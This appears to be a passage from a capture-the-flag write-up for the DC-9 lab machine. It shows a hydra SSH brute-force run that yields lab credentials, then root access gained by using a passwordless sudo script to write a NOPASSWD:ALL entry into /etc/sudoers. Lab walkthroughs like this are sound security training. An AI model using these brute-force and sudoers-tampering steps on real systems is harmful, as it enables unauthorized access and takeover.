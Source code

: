 ```console
jerrym
wilmaf
bettyr
chandlerb
joeyt
rachelg
rossg
monicag
phoebeb
scoots
janitor
janitor2
```

Then I made a brute force attack with hydra, where two valid users were found.

```console
root@kali:~$ hydra -L ssh_users -P ssh_passwords ssh://192.168.179.128
...
[DATA] attacking ssh://192.168.179.128:22/
[22][ssh] host: 192.168.179.128   login: fredf   password: B4-Tru3-001
[22][ssh] host: 192.168.179.128   login: joeyt   password: Passw0rd
1 of 1 target successfully completed, 2 valid passwords found
```

## Privilege Escalation
### Sudo Permissions

We access via SSH with the credentials **fredf:B4-Tru3-001** we verify the sudo privileges and we found that it has permissions to execute a script without providing a password.

```console
root@kali:~$ ssh -l fredf 192.168.179.128                      
fredf@192.168.179.128's password: 
fredf@dc-9:~$ sudo -l
Matching Defaults entries for fredf on dc-9:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User fredf may run the following commands on dc-9:
    (root) NOPASSWD: /opt/devstuff/dist/test/test
```

This script reads a file and adds the content to a file, to obtain root we create the **sudo_perm** file assigning sudo permissions to the user **fredf** to run any command without providing a password, then we execute the script as parameters the **sudo_perm** and **sudoers** files, and we get root.

```console
fredf@dc-9:~$ sudo /opt/devstuff/dist/test/test 
Usage: python test.py read append
fredf@dc-9:~$ echo "fredf ALL=(ALL) NOPASSWD:ALL" > sudo_perm
fredf@dc-9:~$ sudo /opt/devstuff/dist/test/test sudo_perm /etc/sudoers
fredf@dc-9:~$ sudo su
root@dc-9:/home/fredf# id
uid=0(root) gid=0(root) groups=0(root)
```

